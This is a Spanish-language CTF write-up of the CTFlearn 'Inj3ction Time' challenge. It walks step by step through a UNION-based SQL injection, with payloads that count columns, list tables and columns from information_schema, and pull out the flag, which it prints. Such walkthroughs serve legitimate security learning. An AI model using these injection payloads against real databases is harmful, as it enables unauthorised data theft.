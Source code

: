 ```yaml
---
title: CTFlearn - Inj3ction Time
layout: post
post-image: /assets/images/gatohacker2.jpeg 
description: La resolución del reto Inj3ction Time.
tags:
- ctflearn
- post
- writeups
---
```

# Descripción
---

I stumbled upon this website: http://web.ctflearn.com/web8 and I think they have the flag in their somewhere. UNION might be a helpful command.


# Solución
---

Vemos solo una página que nos pide un ID. Por el título y la descripción sabemos que debemos explotar un **SQLi UNION Attack**.

![](/assets/images/images-ctflearn/injection-time-1.png)

Probamos escribiendo números para saber qué tipo de ID necesita.

![](/assets/images/images-ctflearn/injection-time-2.png)

Si escribimos una letra la página no nos responde, entonces utilizaremos números.

Esto lo hacemos para tener en cuenta la comilla en nuestra inyección `'`. Como estamos trabajando con números no es necesario esta comilla al inicio de nuestra inyección.

![](/assets/images/images-ctflearn/injection-time-3.png)

Primero enumeramos, agregaremos un **null** y después iremos agregando más hasta que la página nos responda correctamente.

```sql
1 union select null-- -
```

![](/assets/images/images-ctflearn/injection-time-4.png)

Vemos que con dos **null** tampoco funciona, así que seguimos agregando.

```sql
1 union select null,null-- -
```

![](/assets/images/images-ctflearn/injection-time-5.png)

Seguimos agregando hasta que llegamos a 4 y la página nos responde correctamente.

```sql
1 union select null,null,null,null-- -
```

![](/assets/images/images-ctflearn/injection-time-6.png)

Ahora buscamos la tabla que contenga la flag, ejecutando una query que nos muestre todas las tablas de la base de datos.

```sql
1 union select table_name,null,null,null from information_schema.tables-- -
```

![](/assets/images/images-ctflearn/injection-time-7.png)

Al final de la página veremos una tabla que destaca.

![](/assets/images/images-ctflearn/injection-time-8.png)

Ahora falta obtener el nombre de la columna donde se encuentra la flag. Para obtener eso ejecutamos la siguiente query que nos devolverá todas las columnas de la base de datos.

```sql
1 UNION SELECT column_name,null,null,null FROM information_schema.columns -- -
```

![](/assets/images/images-ctflearn/injection-time-9.png)

Si vamos al final de la página veremos una que destaca `f0und_m3`.

![](/assets/images/images-ctflearn/injection-time-10.png)

Ya tenemos la tabla y la columna donde está la flag, con esto podemos ejecutar la siguiente query y obtendremos la flag.

```sql
1 UNION SELECT f0und_m3,null,null,null FROM w0w_y0u_f0und_m3 -- -
```

![](/assets/images/images-ctflearn/injection-time-11.png)


# Flag
---

`abctf{uni0n_1s_4_gr34t_c0mm4nd}`

----

## [Anterior](/blog/My-Blog)
## [Siguiente](/blog/Gobustme)